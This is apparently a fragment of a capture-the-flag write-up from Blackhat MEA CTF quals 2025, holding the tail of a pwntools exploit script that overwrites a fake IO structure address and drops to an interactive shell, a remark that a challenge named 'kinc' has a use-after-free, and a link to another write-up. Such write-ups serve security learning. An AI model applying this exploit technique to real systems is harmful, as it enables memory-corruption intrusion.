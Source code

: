 ```py
for i in range(4):
    p.sendline("0")
p.sendline(str(fake_io_lower))
p.sendline(str(fake_io_addr >> 32))
# gdb.attach(p)
# pause()
p.sendline("quit")

p.interactive()
```

## kinc
dunno what to do with the cnt++ though its a UAF.....

## link to jiegec's writeup

https://jia.je/ctf-writeups/2025-09-07-blackhat-mea-ctf-quals-2025/